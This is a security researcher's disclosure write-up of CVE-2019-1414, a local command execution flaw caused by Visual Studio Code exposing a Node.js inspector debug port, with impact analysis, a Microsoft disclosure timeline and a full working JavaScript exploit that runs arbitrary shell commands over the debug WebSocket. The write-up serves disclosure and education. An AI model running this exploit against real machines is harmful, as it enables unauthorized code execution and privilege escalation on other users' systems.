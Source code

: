 ```yaml
---
layout: default
---
```


_**Nov 4, 2019**_

## CVE-2019-1414 — a Local Command Execution in Visual Studio Code

Few months ago I discovered by looking at the running processes of my VM that [Visual Studio Code](https://code.visualstudio.com/) was enabling by default the [Node.js debug port](https://nodejs.org/en/docs/guides/debugging-getting-started/). Let's analyze the security impact and the process followed to exploit the issue and achieve Command Execution in the context of the running Visual Studio Code instance.

<script id="asciicast-PeDRogrDXQLbVb0A7hbLiXlNk" src="https://asciinema.org/a/PeDRogrDXQLbVb0A7hbLiXlNk.js" async></script>

## Debugging Node.js

Before my career shift into security, I was working as Full Stack JavaScript Developer. As result, I was spending a lot of time writing Node.js code to build Web APIs and data processing scripts. When you have to debug a Node.js, it's very handy to reuse the Chrome DevTools that we all know and love, since it lets to set breakpoints and it has code evaluation and interactive inspection with sourcemaps support! To enable developers to natively use the Chrome DevTools, they migrated from the legacy debug protocol to the newer [Inspector protocol](https://v8.dev/docs/inspector), that is based on the [WebSocket protocol](https://tools.ietf.org/html/rfc6455). When a Node.js instance is launched with the `--inspect` command line option, it exposes by default a debug port on `127.0.0.1:9229`. This debug port enables full access to the underline Node.js instance, including the ability to run arbitrary JavaScript code. It's also possibile to define a custom TCP port using the `--inspect=12345` option. We can connect to the port using Chrome by opening the URL `chrome://inspect` or programmatically by writing some code.

## Discovery

By looking _by chance_ at the running processes in my VM, I noticed that Visual Studio Code was normally started with the `--inspect=RANDOM_PORT` option, using a random TCP port at every execution.

![discovery](../assets/images/cve-2019-1414-discovery.jpg "Discovery")

A local attacker can exploit this port to execute arbitrary JavaScript code within the underline Node.js instance, ultimately achieving command execution on the system in the context of the Visual Studio Code instance. This can be used for horizontal and vertical lateral movements, including the following scenarios:

1. if Visual Studio code runs as Administrator, we can elevate our privileges to the highest level, i.e. `NT AUTHORITY\SYSTEM`
2. if Visual Studio Code runs as another user, we can achieve command execution as that user
3. if Visual Studio Code runs in High Integrity context, we can bypass any UAC setting and elevate from Low/Medium levels

## Exploitation

There are two main limitations to the exploitability, that are:

1. the debug port binds to `127.0.0.1`
2. a random TCP port is used every execution

Due to these limitations, the issue cannot be remotely exploited. If instead a fixed TCP port was used, the issue could have been exploited via the browser using a [DNS Rebinding](https://en.wikipedia.org/wiki/DNS_rebinding) attack to bypass the Same Origin Policy.

To be able to execute arbitary JavaScript code, we need first to retrieve the WebSocket link using a `HTTP GET` request to `/json` URL and then connect to it using the WebSocket protocol.

![websocket](../assets/images/cve-2019-1414-websocket.jpg "WebSocketLink")

I wrote a [simple Node.js script](https://github.com/phra/inspector-exploiter) to execute arbitrary commands by connecting to the debug port.

```javascript
const fetch = require('node-fetch')
const WebSocket = require('ws')

function die(reason) {
  console.error(reason)
  process.exit(-1)
}

if (process.argv.length !== 5) {
  die('usage: node index.js <IP> <PORT> <COMMAND>')
}

const IP = process.argv[2]
const PORT = process.argv[3]
const COMMAND = process.argv[4]
const COMMAND_B64 = base64(COMMAND)

function base64(data) {
  return Buffer.from(data).toString('base64')
}

async function getWsLink() {
  const res = await fetch(`http://${IP}:${PORT}/json`)
  const data = await res.json()
  return data[0].webSocketDebuggerUrl
}

async function main() {
  console.log(`[?] Getting webSocketDebuggerUrl from http://${IP}:${PORT}/json`)
  const wsLink = await getWsLink().catch(die)
  console.log(`[!] Found webSocketDebuggerUrl: ${wsLink}`)
  const socket = new WebSocket(wsLink)

  socket.onopen = async (event) => {
    console.log(`[?] Connection established to ${wsLink}`)
    socket.send(JSON.stringify({ id: 1, method: 'Runtime.enable' }))
    socket.send(JSON.stringify({
      id: 2,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};}`
      }
    }))

    socket.send(JSON.stringify({
      id: 3,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}`
      }
    }))

    console.log(`[!] Executing: ${COMMAND}`)
    socket.send(JSON.stringify({
      id: 4,
      method: 'Runtime.evaluate',
      params: {
        expression: `spawnSync('/bin/bash', ['-c', 'echo ${COMMAND_B64} | base64 -d | /bin/bash'])`
      }
    }))

    socket.close()
  }

  socket.onclose = (event) => {
    if (event.wasClean) {
      console.log('[?] Connection closed cleanly')
    } else {
      console.log('[?] Connection died')
    }
  }

  socket.onerror = (error) => {
    console.log(error)
  }
}

main()
```

Here you can see it in action:

![exploit](../assets/images/cve-2019-1414-exploit.jpg "Exploit")

## Responsible Disclosure

The issue was promptly reported to Microsoft by following a Responsible Disclosure approach.

![msrc](../assets/images/cve-2019-1414-msrc.jpg "MSRC")

The vulnerability was also [indipendently discovered](https://bugs.chromium.org/p/project-zero/issues/detail?id=1944) by [Tavis Ormandy](https://twitter.com/taviso) of [Google Project Zero](https://googleprojectzero.blogspot.com/).

[CVE-2019-1414](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2019-1414) was assigned to the reported issue.

## Timeline

- 31/08/2019: Issue reported to MSRC
- 03/09/2019: Issue acknowledged (case #53814)
- 11/10/2019: Google Project Zero public disclosure
- 17/10/2019: CVE-2019-1414 Advisory released

[back](../)
